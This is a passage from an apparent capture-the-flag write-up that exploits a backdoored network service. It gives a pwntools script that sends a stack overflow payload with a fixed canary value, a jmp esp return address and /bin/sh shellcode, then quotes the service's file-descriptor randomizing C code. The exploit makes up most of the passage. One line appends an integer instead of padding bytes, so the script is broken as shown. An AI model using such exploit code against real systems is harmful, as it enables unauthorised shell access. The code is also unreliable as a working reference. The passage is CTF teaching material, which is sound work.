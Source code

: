 Let's see our final shell in action!

```python
from pwn import *

# Pack 32 bit integer using binjitsu
canary = p32(0xe4ffffe4)
jmpesp = p32(0x0804936b)

r = remote('localhost', 4242)

# Activate the backdoor
r.sendline('X')

# Send our cyclic payload - 200 bytes we see from source
payload = ''
payload += 'A' * cyclic_find('bbaa')
payload += canary
payload += 'B' * cyclic_find('baaa')
payload += jmpesp
payload += asm(shellcraft.sh()) # Basic /bin/sh shellcode
payload += (200 - len(payload))

r.sendline(payload)

r.interactive() 
```

<script type="text/javascript" src="https://asciinema.org/a/8tyscgwdrh6z4sxp1ul12aig9.js" id="asciicast-8tyscgwdrh6z4sxp1ul12aig9" async></script>

Wait.. So we are executing a shell, but the shell is opening on the server side? Interesting.. There must be some weird socket file descriptor magic going on. Let's take a look at the source again for some non-standard socket manipulation.

```c
/*
 * Randomizes a given file descriptor.
 * Returns the newly randomized file descriptor.
 * Can never fail (falls back to rand() or the original file descriptor).
 */
int sgnet_randfd(int old)
{
    int max = getdtablesize();  // stay within operating system limits
    int fd = open("/dev/urandom", O_RDONLY);
    int new = 0;

    // randomize new file descriptor
    if (fd < 0) {
        while (new < old) {
            new = rand() % max; // fall back to rand() if fd was invalid
        }
    } else {
        while (new < old) {
            read(fd, &new, 2);
            new %= max;
        }
        close(fd);
    }

    // duplicate the old file descriptor to the new one
    if (dup2(old, new) == -1) {
        new = old;  // if we failed, fall back to using the un-randomized fd
    } else {
        close(old); // if we were successful, close the old fd
    }
```